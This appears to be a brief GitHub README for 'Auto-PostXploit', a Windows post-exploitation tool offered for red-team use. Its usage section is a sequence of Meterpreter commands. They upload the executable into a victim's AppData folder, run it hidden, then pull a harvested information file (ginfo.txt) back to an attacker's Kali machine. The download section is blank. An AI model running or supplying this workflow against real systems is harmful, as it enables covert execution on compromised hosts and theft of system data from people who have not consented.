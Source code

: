 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :

  ### wget 


## Usage :

  
  #### meterpreter > - upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
  #### meterpreter > - execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
  [If Auto-PostXploit.exe Not In Process]
  
  #### meterpreter > - download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
  #### root@kali:~# - cat /root/Desktop/ginfo.txt
